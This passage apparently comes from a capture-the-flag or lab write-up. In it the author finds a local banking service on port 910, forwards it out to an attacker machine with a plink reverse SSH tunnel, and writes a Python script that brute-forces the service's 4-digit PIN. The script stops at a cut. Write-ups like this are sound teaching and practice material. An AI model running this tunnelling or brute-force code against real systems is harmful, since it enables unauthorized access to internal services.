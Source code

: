 It is currently being ran and was exposed on the port `910` but for some reason, it was not reachable from outside.

```
tasklist /v
...                                                            
bankv2.exe                    1984                            0        376 K Unknown         N/A 
...
```

```
netstat -ano 
...
  TCP    0.0.0.0:910            0.0.0.0:0              LISTENING       1984
...
```

Therefore, I uploaded a `plink.exe` and performed port forwarding in order for us to interact with it.

```
plink.exe -l kali -pw kali 10.10.XX.XX -R 9090:127.0.0.1:910 -P 2222
```

Now if we interact with it, it immediately prompts us for a 4-digit pin number.

```bash
$ nc -v 127.0.0.1 9090   
localhost [127.0.0.1] 9090 (?) open
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234
 [!] Access denied, disconnecting client....
```

I then wrote a `python` script to help brute force the pin.

```python
import socket

IP_PORT = ("127.0.0.1",9090)
BUFFER_SIZE = 2048


def testcode(code: str) -> bool:
    print(f"Testing {code}")
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(IP_PORT)
        s.recv(BUFFER_SIZE)
        s.send(f"{code}\n".encode())
        output = s.recv(BUFFER_SIZE).decode()
        s.close()
        return "Access denied" not in output


def main():
    for d1 in range(10):
        for d2 in range(10):
            for d3 in range(10):
                for d4 in range(10):
                    if testcode(f"{d1}{d2}{d3}{d4}"):
                        print(f"Found pin: {d1}{d2}{d3}{d4}")
                        return

if __name__ == "__main__":
```